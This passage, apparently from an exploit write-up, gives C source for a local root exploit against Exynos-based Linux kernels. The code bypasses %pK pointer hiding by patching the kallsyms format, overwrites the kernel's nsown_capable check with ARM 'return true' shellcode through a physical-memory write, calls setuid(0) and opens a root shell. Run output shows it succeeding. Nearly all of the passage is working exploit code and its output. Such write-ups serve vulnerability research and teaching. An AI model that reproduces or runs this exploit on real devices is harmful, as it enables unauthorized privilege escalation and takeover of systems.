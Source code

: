 ```c
                printf("[*] Found symbol %s @ %p.\n", sym_name, parsed_addr);
                addr = (uint32_t)parsed_addr;
                break;
            }
        }
    }

    fclose(fp);
    return addr;
}

void change_to_return_true(uint32_t kernel_sym_addr) {
    unsigned char ret_true_shellcode[] = {
        0x01, 0x00, 0xa0, 0xe3, 0x1e, 0xff, 0x2f, 0xe1, 
    };
    // The address we get is a kernelic symbol address, and a virtual one at that.
    // In our case, we'll assume it is an address that looks similar to this:
    // 0x8000e348 / 0xc000e348 - meaning, a page offset that is in the upper-most byte.
    uint32_t phys_offset = ((kernel_sym_addr & 0x0fffffff) - KERNEL_VIRT_OFFSET) + KERNEL_START;
    printf("[*] Patching function @ %p to return true.\n", phys_offset);
    _exynos_mem_write(phys_offset, ret_true_shellcode, sizeof(ret_true_shellcode));
}

int main(void) {
    // Patch kallsyms formatting to bypass %pK by replacing 
    // it with %p.
    kallsyms_fmt_patcher();

    // Now that kallsyms is readable to us; extract the nsown_capable symbol,
    // and then change the function to always return true.
    change_to_return_true(extract_sym_addr(NSOWN_CAPABLE));
    
    printf("[*] Sleeping to flush i-cache in case its needed...\n");
    sleep(10);

    if (0 != setuid(0)) {
        printf("[X] setuid() failed! Something went wrong..");
        exit(-1);
    }

    printf("[!] You are r00t :)\n");
    printf("[!] getuid(): %d\n", getuid());
    printf("[!] have fun with shell!\n");

    system("/bin/sh");
}
```

Note that we add a 10 second `sleep` in order to flush the instruction cache. Now, let's see if it works:
```shell
[*] Running Exynos-Mem Write @ 0x60409e84
processed 3 bytes
[*] Patched kallsyms format @ offset 0xe84, address 0x60409e84
[*] Found symbol nsown_capable @ 0x80027c9c.
[*] Patching function @ 0x60027c9c to return true.
[*] Running Exynos-Mem Write @ 0x60027c9c
processed 8 bytes
[*] Sleeping to flush i-cache in case its needed...
[!] You are r00t :)
[!] getuid(): 0
[!] have fun with shell!
/bin/sh: can't access tty; job control turned off
/ # whoami
```